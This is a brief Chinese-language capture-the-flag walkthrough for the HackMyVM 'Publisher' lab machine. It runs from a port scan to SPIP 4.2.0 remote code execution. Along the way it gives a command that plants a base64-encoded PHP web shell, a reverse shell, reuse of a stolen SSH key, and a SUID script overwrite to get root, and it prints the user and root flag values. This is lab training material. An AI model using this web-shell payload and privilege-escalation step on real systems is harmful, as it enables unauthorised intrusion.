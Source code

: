 # Quick2

2025.03.29 https://hackmyvm.eu/machines/machine.php?vm=Publisher

[video]()

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

http://192.168.5.40/spip/ 版本 SPIP 4.2.0 有 RCE https://www.exploit-db.com/exploits/51536

可以执行 shell，直接反弹不行，写入一句话：

```
python3 51536.py -u http://192.168.5.40/spip/ -c 'echo "PD9waHAgc3lzdGVtKCRfR0VUWzFdKTs/Pg=="|base64 -d > shell.php' -v
```

写入后，得到反弹 shell。

user flag：

```
www-data@41c976e507f8:/home/think$ cat user.txt
fa229046d44eda6a3598c73ad96f4ca5
```

拿到 think 用户私钥，使用私钥登陆。

suid 发现 run_container 可以执行脚本 /opt/run_container.sh 并且有修改权限，但是提示不能修改，查看 think 的 bash 发现是/usr/sbin/ash

```
/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /bin/bash
```

```
think@publisher:/opt$ echo '/bin/bash -p' > run_container.sh
think@publisher:/opt$ /usr/sbin/run_container
bash-5.0# cd /root
bash-5.0# cat root.txt
3a4225cc9e85709adda6ef55d6a4f2ca
```
